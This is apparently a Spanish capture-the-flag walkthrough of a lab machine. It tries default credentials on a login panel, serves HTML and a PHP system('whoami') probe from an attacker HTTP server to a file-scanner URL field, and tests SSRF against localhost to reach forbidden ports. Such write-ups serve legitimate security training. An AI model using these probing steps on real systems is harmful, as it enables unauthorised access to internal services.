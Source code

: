 Aqui como estamos en un panel de inicio de session, intentamos cosas

- test / test
- admin / admin

Ya vemos por el mensaje de error quel usuario admin existe.

## Evaluacion de vulnerabilidades {-}

### Analizamos la web staging.love.htb {-}

Aqui llegamos en una pagina **Free File Scanner**. si pinchamos el menu Demo vemos un input que nos pregunta por un file url.

Vamos a ver lo que pasa si le damos una url de nuestro equipo de atacante

### Injeccion HTML y SSRF {-}

```bash
vi index.html

<h1>Hola</h1>
<marquee>Se tenso</marquee>
```

Creamos un servicio http con python

```bash
python3 -m http.server 80
```

En la web ponemos la url de nuestro equipo 
```bash
 http://10.10.14.8/ 
```
 y vemos que la web es vulnerable a una **Injeccion HTML**.
Intentamos con una pagina php

```bash
vi index.php

<?php
    system("whoami");
?>
```

Si ahora en la web le ponemos 
```bash
 http://10.10.14.8/index.php 
```
 no pasa nada quiere decir que esta en un contexto sanitizado.
Bueno aqui pensamos en un **SSRF** y intentamos cosas como 
```bash
 http://localhost/ 
```
. Esto nos muestra el panel de session que ya hemos analizado,
y probamos a ver si los puertos que tenian el mensaje **Forbidden** se pueden ahora burlar. 
